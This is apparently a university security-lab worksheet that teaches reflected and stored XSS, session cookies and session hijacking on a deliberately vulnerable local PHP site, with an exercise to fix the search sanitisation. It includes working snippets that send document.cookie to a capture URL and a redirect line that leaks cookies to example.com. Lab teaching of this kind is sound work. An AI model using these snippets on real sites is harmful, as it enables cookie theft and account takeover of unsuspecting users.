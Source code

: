 Worksheet
========================================================================

Preparation
___________

Start the Virtual Machine and use your favourite browser to navigate to the
web application (port 12342), Usermin (port 12323) and Request Bin (port 12344).

After logging in, Usermin will show you the contents of ``/home/student``, from
which you can access the web application's code in the ``webapp`` folder.

The web application is a sample website designed to demonstrate
some security vulnerabilities, including those explained in this worksheet.

The first step is to familiarise with the website. You can create an
account using the "Register" link at the top of the page. The website
allows users to login, view articles and write comments.


Unsanitised output
_____________________

Try to use the search functionality of the website. This page simply
searches the database for articles by their title.

In this website, the search input is not appropriately sanitised.
Notice that the search functionality of the website returns a webpage with
a heading which counts the number of results and prints back the search
terms used (i.e. searching for ``Lorem ipsum`` will print ``4 results for "Lorem ipsum"``).

If you insert some HTML code into the input bar, you can notice that
this is not correctly filtered by the application.
For example, if you type ``<u>Hello</u>`` into the search bar and press enter,
you can see that the webpage will display the text underlined, instead of
displaying the string as it has been typed. This is
because the HTML ``<u>...</u>`` tag is responsible for underlining text,
and the unfiltered text is interpreted as HTML code by the browser.

**Exploit this functionality to display an arbitrary image from the internet**
**in the search page.**

Hint:
    You can find a list of HTML tags at http://www.w3schools.com/tags/.

This type of attack is known as *non-persistent* or *reflected*,
because the result is shown back to the user but it is
not saved in the website's database, and it needs the attacker to share
the link of the search results page and it only affects users who
click on the malicious link.


Fix the search
______________

The webpage which is responsible for the search is available for you to
edit from Usermin in ``/home/student/webapp/pages/search.php``. You can
make changes to the file, save it and reload the page of the website
to check the result.

If things go wrong and you want to restore the initial version of the file,
simply delete your VM and restart it from a fresh copy.

**TODO: Maybe provide something easier to reset the code?**

PHP files (having ``.php`` extension) contain HTML code and they may contain some PHP code
between ``<?php`` and ``?>`` tags. PHP code is processed by the server when
a webpage is requested, its output is mixed with the HTML page and only
HTML is returned to the web browser. Variable names start with a dollar sign (``$``)
and all instructions must terminate with a semicolon (``;``). You can learn more about the language at
http://php.net/manual/en/langref.php.

The ``prepareSearchTerm`` function is used to prepare the string before it
is used to search the articles of the website. Currently, it only capitalises
the first letter of each word in the string
(i.e. ``this is a search query`` -> ``This Is A Search Query``).

**Change the** ``prepareSearchTerm`` **function to fix the vulnerability.**
**Then test that the string you prepared in the previous exercise**
**is now innocuous and can't be used to display an image.**

Hint:
    There are a couple of ways you can implement the fix to prevent
    HTML markup from being injected. Symbols, if are not
    intended to be interpreted as code, should be encoded in their
    hexadecimal HTML notation, e.g. ``£`` can be written
    as ``&#163;`` (or its memorable equivalent ``&pound;``).

    Think about which special characters play a role in HTML injection
    attacks.


Injecting Javascript Code
_________________________

Injecting simple formatting in webpages may temporarily
disrupt the layout of the webpage but is not generally a security risk.

Images can be a risk for privacy in some cases, for example if the
image is served by a webserver which is under the control of the attacker,
this can be used to retrieve information about the end user, such as
IP address, the browser used, and whether the user has opened the webpage
or not (this technique is known as `web beacon <https://en.wikipedia.org/wiki/Web_beacon>`_).

Probably, the most dangerous HTML code which can be injected into webpages
is Javascript scripts. These are automatically executed by the web browser
as soon as they are encountered, and permit a broad range of operations, such as
the manipulation of the DOM (structure of the page), reading cookies and
sending HTTP requests.

There are two ways to insert Javascript in a HTML file:

1. Using a ``<script>...</script>`` tag, including the Javascript code directly
   in between the tags.

2. Hosting the script on different web server, and injecting it using:
   ``<script src="http://example.com/malicious-code.js"></script>``,
   where ``malicious-code.js`` is a file containing Javascript code. This
   is known **XSS**, or Cross-site scripting.

The comments section of the website is vulnerable to XSS but this time
the content of the comments is persisted to the database, therefore this
application is vulnerable to *permanent XSS attacks*, which can be vary
dangerous.

**Try typing the following code in the comment box of an article, and observe**
**its effect on you and other users who visit the same page:**

.. code:: javascript

  <script> alert("Hello world"); </script>



How Sessions Work
-----------------

In order to understand identity theft attacks, it is important to
understand how sessions work in web applications. If you already know
about sessions and cookies, feel free to skip this section.

HTTP (*Hypertext Transfer Protocol*) is the protocol used for the transmission
of webpages and is the foundation of websites and web applications. Its
development began in 1989 before modern web applications, and it was originally
designed to serve as a protocol for simple informative webpages. It is probably
for this reason that HTTP is a *stateless* protocol, meaning that its
specification has no concept of a *session* between a client
and a server.

This may at first seem counterintuitive to readers,
because modern websites and web applications still use HTTP and
certainly do support authentication and other
systems that rely on the concept of a *session*.

**Cookies and sessions**

In order to keep track of the
current session information, most web applications use techniques such as
session cookies. Cookies are small strings which contain information that is
exchanged back and forth at every request between a client and a server.

At the first visit, the server assigns a random ID to the client, called the
session ID. This is communicated to the client. The server will store locally
any information regarding the current state of the application (the *session*
*data*), such as the authentication status of the user. The client, on the
other hand, will communicate its session ID to the server at every request,
so to receive webpages personalised on the basis of the logged in user.

The security of this method relies on the fact that the session information is
only accessible by the server, and that the session IDs are extremely
hard to guess.

You can try for yourself: most browsers allow users to view the list of cookies.
**Try visiting a familiar website and logging in**. At this point, you will probably
be able to see some cookie with a name such as "SESSION_ID", "SESSID" or "UID",
which will contain a long random string. Try deleting this cookie and refreshing
the webpage and you will probably be logged out of the website.

Hint:
    If you're using Google Chrome, you should be able to see a list of cookies
    by clicking on the icon in the Omnibar.

    If you're using Firefox, you should be able to see a list of cookies by
    clicking on the information sign icon in the address bar, "More Information",
    "Security" tab.

Ethics and regulations:
    At the time of writing, in the UK websites are required to ask for the
    user's explicit consent
    before storing some cookies on the user's browser
    and also need to explain what cookies are and how exactly they are used
    in the website. This also applies to similar technologies (e.g. HTML5
    session storage), but simple session cookies are generally exempt.
    Learn more at
    https://ico.org.uk/for-organisations/guide-to-pecr/cookies-and-similar-technologies/.


Capturing HTTP requests
-----------------------

Generally XSS attacks rely on sending the cookies' content to a
third party web server, under the control of the attacker.
For the purpose of this practical, a very simple web application is
running on the VM (port 12344). This web application provides an URL,
which you can find on the right of the home page, which simply captures
any HTTP request made to it, and stores the content of the request.

**Visit the Request Bin application (port 12344), get the capture URL from the box**
**on the right, and visit this URL with your browser. Then refresh the**
**home page of the Request Bin application and notice the effect.**

You should find a new request, of type "GET", made by your browser when
trying to open the page. You should be able to see the data associated
with this request, which includes your IP address, the timestamp,
and your user-agent string.


Using Javascript to steal the session ID
----------------------------------------

Javascript code has the ability to read and write cookies from and to the
browser. The cookies string can be accessed as the variable ``document.cookie``,
which contains all cookies in a key-value format (``key1=value1; key2=value2; ...``).

Most modern web browsers allow you access a Javascript interpreter in the scope
of the current webpage, which can be very useful for prototyping and debugging
your Javascript code.
This can generally be accessed under the "Developer Tools" or "Inspector"
menus of your browser.

Open your favourite website and then this Console. Typing ``document.cookie``
will probably show you a long list of cookies, which are used for statistics,
sessions, and advertisement profiling.

Intuitively, being able to read the session ID of another user and using it
on your computer, is normally enough to fool the website into believing you
are in fact the other user: this will cause the website to log you in as the other
user.

Javascript code can be used to make HTTP requests in background. These are
known as AJAX requests. These request can carry arbitrary data, including
information about the user collected from the vulnerable website.

For example, you can use
Javascript to send a requesto the Request Bin application,
by writing in the Console:

.. code:: javascript

  jQuery.post("<CAPTURE URL>",
              {a_number: 42, some_text: "Hello World!"});


Where ``<CAPTURE URL>`` is the URL from the Request Bin application which
captures any request made to it.

This method, provided by the jQuery library (included for simplicity),
makes a HTTP POST request to the URL with payload
``a_number=42`` and ``some_text=Hello World!``. You can learn more about the
``jQuery.post`` method at https://api.jquery.com/jquery.post/.

**Write a comment with some Javascript code that**
**will make HTTP request to the Request Bin capture URL, containing the cookie**
**information from the browser of the user.**

Hint:
  Try combining the function presented above with the ``document.cookie``
  variable. Don't forget the ``<script></script>`` tags!

**Now login as a second user (the "victim") and try visiting the article**
**which contains the malicious comment. Verify that the**
**victim unknowingly sent their cookies the Request Bin application,**
**including their session ID.**

**Now log out and use the session ID to impersonate the victim, without**
**using their credentials.**

Hint:
  To change your current session ID, you will need to edit your own cookies.
  Unfortunately, most modern browsers' developer tools allow you only
  to view and delete cookies, but not to edit them.

  To change the ``PHPSESSID`` cookie to the value ``NEW_VALUE``, you can
  open the website, then the browser's Console, and paste the following
  code:

  .. code:: javascript

    document.cookie = "PHPSESSID=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
    document.cookie = "PHPSESSID=NEW_VALUE";

  Please note that the first line is needed to discard the old value
  of the cookie, by setting its expiration date to the past. The second
  line then sets the cookie value to ``NEW_VALUE``.  You can
  read more about ``document.cookie`` at
  https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie.

  Alternatively you can use a browser extension, such as
  Firebug for Firefox, which is available
  at https://getfirebug.com/downloads/. You can then activate the
  Firebug panel, open the Cookies tab and edit your cookies
  via the UI.

This type of attack is known as *persistent*,
because the malicious code is stored in the website by the attacker.


Note on HTTP access control: CORS (Cross-Origin Resource Sharing)
-----------------------------------------------------------------

For security reasons modern browsers restrict cross-origin HTTP requests
initiated from within scripts. This includes HTTP POST requests made using
jQuery's ``.post`` method. In fact these requests are generally subject to the
same-origin policy, meaning that the scripts can only make HTTP requests to
their own domain, unless explicitly specified by the application's web server.

For the purpose of this practical, CORS has been set to enforce a permissive
policy for requests made from scripts within the web application. This is not
realistic and is unlikely to happen on real websites. We believe this is justified
by the fact that CORS is not an excuse to avoid doing proper input sanitisation,
for the following reasons:

(a) CORS relies on the browser being modern and up to date. Older browsers,
    especially mobile phones' browsers, do not implement correctly, or fully,
    CORS policies.

(b) Other methods that circumvent CORS restrictions exist. For example, a Javascript
    script could still make a HTTP GET request by redirecting the user,
    e.g.:

      .. code:: javascript

        // Redirect the user to example.com/?cookies=PHPSESSID=123.....9;
        window.location = "http://example.com/?cookies=" + document.cookie;

You can read more about HTTP access control (CORS) at
https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS.
